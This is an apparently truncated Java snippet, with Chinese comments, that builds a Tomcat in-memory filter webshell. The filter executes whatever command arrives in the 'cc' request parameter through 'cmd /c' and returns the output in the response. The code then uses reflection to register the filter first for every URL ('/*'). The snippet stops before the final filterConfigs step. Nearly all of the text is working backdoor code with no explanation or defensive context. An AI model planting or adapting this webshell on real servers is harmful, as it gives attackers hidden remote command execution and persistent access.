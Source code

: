 ```auto
//创建filter
        Filter filter=new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cc") != null){
                    byte[] bytes = new byte[1024];
                    InputStream in = Runtime.getRuntime().exec("cmd /c"+req.getParameter("cc")).getInputStream();

                    ByteArrayOutputStream baos = new ByteArrayOutputStream();
                    byte[] b = new byte[1024];
                    int a = -1;

                    while ((a = in.read(b)) != -1) {
                        baos.write(b, 0, a);
                    }
                    servletResponse.getWriter().write(new String(baos.toByteArray()));
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }
        };

        //封装filter
        String filtername="novic4";
        FilterDef filterDef=new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filtername);
        filterDef.setFilterClass(filter.getClass().getName());

        //将filterdef添加到filterdefs中
        standardContext.addFilterDef(filterDef);

        //将filterdef添加到filterconfig中
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        //建立对应得filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filtername);
        //这里用到的 javax.servlet.DispatcherType类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        //插入filterMaps，将其插到首位
        standardContext.addFilterMapBefore(filterMap);

        //添加到filterconfigs
```